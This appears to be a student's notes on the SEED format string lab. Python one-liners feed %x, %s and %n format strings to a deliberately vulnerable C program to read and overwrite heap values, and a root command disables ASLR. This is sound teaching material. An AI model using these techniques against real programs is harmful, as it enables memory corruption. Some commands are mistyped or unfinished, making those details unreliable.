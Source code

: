 Format String Vulnerability Lab
===============================

http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Format_String/

# Lab1

Files:

* Makefile
* vul_prog.c

## Summary

`vul_prog.c` give a malloced array `secret` and asked you to get the value of
`scret[1]` and overwrite it.  I can do that when this program compiled as 32
bits but there still some
unsolved problems in 64 bit.

`vul_prog.c` give us the address of `secret` every times, it means that ASLR is
no longer vaild.

below is the varibles memory layout of vul_prog in my machine:

    gcc -m32 -z execstack -fno-stack-protector vul_prog.c -o vul_prog.out
    sizeof(int) 4
    userinput 0xffc6131c
    secret 0xffc61314
    int_input 0xffc61310
    a 0xffc6130c
    b 0xffc61308
    c 0xffc61304
    d 0xffc6133e
    The variable secret's address is 0xffc61318 (on stack)
    The variable secret's value is 0x 804a410 (on heap)
    secret[0]'s address is 0x 804a410 (on heap)
    secret[1]'s address is 0x 804a414 (on heap)
    Please enter a decimal integer
    ...
    Please enter a string
    ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x55

> Doubt: I don't know why there are 8 bytes between `user_input` and `int_input`

## Access varible

    printf("Please enter a decimal integer\n");
    scanf("%d", &int_input);  /* getting an input from user */
    printf("Please enter a string\n");
    scanf("%s", user_input); /* getting a string from user */

    /* Vulnerable place */
    printf(user_input);
    printf("\n");

As you see, `printf` print a user-input string without any parameter
(IT IS DANGREOUS), we can use it to access varible on stack.

first, find the location of `int_input`:

    $ make
    $ python -c "print('57005'); print('%x-'*20)" | ./vul_prog.out | grep dead
    ...
    ffa49ddc-ffa49dc8-ffa49dc4-ffa49dfe-1-c2-f75b21c3-ffa49dfe-dead-804b010-252d7825- ...
                                                               ^^^^ ^^^^^^^
    ...

> 57005 = 0xdead

so we can access `int_input` by input string `'%x'*9`, and `secret` can be
accessd by `'%x'*10`.

How to get the value of `scret[0]`?

    $ python -c "print('57005'); print('%x-'*9 + '%s')" | ./vul_prog.out
    ...
    ffd6f1fc-ffd6f1e8-ffd6f1e4-ffd6f21e-1-c2-f76061c3-ffd6f21e-dead-D
                                                                    ^
    ...

`hex(ord('D'))` is `0x44`, the vaule of `secret[0]`.

How to get the value of `scret[1]`?

We can control the value of `int_input`, and we know the address of `secret[1]`
(from the output of program), more convience, we can close ASLR so that we
don't need to input the variable address everytime.

    $ su -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

> randomize_va_space values

> 1. Disable ASLR. This setting is applied if the kernel is booted with the
>    norandmaps boot parameter
> 2. Randomize the positions of the stack, virtual dynamic shared object (VDSO)
>    page, and shared memory regions. The base address of the data segment is
>    located immediately after the end of the executable code segment
> 3. Randomize the positions of the stack, VDSO page, shared memory regions,
>    and the data segment. This is the default setting.

Address of `secret[1]` is 0x804a414, converts to decimal is 134521876:

    $ python -c "print('134521876'); print('%x-'*8 + '%s')" | ./vul_prog.out
    ...
    ffc6131c-ffc61308-ffc61304-ffc6133e-1-c2-f75921c3-ffc6133e-U
                                                               ^
    ...

`hex(ord('U'))` is `0x55`, the vaule of `secret[1]`.

## Overwrite varible

> %n: Nothing printed. The corresponding argument must be a pointer to a signed
> int. The number of characters written so far is stored in the pointed location.

Use `%n` write a vaule to `scret[1]`:

    $ python -c "print('134521876'); print('%x-'*8 + '%n')" | ./vul_prog.out
    ...
    ff9efafc-ff9efae8-ff9efae4-ff9efb1e-1-c2-f76671c3-ff9efb1e-
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x3b
                                  ^^^^

`secret[1]` has changed to 0x3b

Write a arbitrary (?) value to `scret[1]`
(by controlling the length of output string):

    $ python -c "print('134521876'); print('%x-'*8 + '0'*+ '%n')" | ./vul_prog.out
    ...
    ff868acc-ff868ab8-ff868ab4-ff868aee-1-c2-f762c1c3-ff868aee-00000000000 ...
    The original secrets: 0x44 -- 0x55
    The new secrets:      0x44 -- 0x233
                                  ^^^^^
    [1]    3824 done                              python -c "print('134521876'); print('%x-'*8 + '0'*504 + '%n')" |
           3825 segmentation fault (core dumped)  ./vul_prog.out

It seem that the value can no smaller then 0x3b, and too large string will
causes segmentation fault. (is it right?)

## 64 bit

To get a 64bit executable, invoke `make ARCH=64 vul_prog.out`

Memory layout:

    sizeof(int *): 8
    userinput 0x7fffffffe550
    secret 0x7fffffffe548
    int_input 0x7fffffffe544
    a 0x7fffffffe540
    b 0x7fffffffe53c
    c 0x7fffffffe538
    d 0x7fffffffe534
    The variable secret's address is 0xffffe548 (on stack)
    The variable secret's value is 0x  601420 (on heap)
    secret[0]'s address is 0x  601420 (on heap)
    secret[1]'s address is 0x  601424 (on heap)

> NOTE: size of x64 stack cell is 8 byte, sizeof(int) = 4, sizeof(int *) = 8

     high                low
    |-----------------------|
    |         secret        |
    |-----------------------|
    | int_input |     a     |
    |-----------------------|
    |     b     |     c     |
    |-----------------------|
    |     d     |           |
    |-----------------------|
     low

Access `secret[0]`:

    $ python -c "print('57005'); print('%016lx-'*10 + '%s')" | ./vul_prog.out
    ...
    0000000000000001-00007ffff7dd5770-000000000000000a-0000000000400a30-0000000000000000-\
    00007fffffffe6a8-0000000100000000-0000000400000000-0000000200000003-0000dead00000001-D
                                                                            ^^^^         ^
    ...

Overwrite `secret[1]`:
    // TODO

    python -c "print('57005'); print('\x24\x14\x60\x60\x00'+ '%016lx-' * 12)" | ./vul_prog.out

# Lab2

// TODO
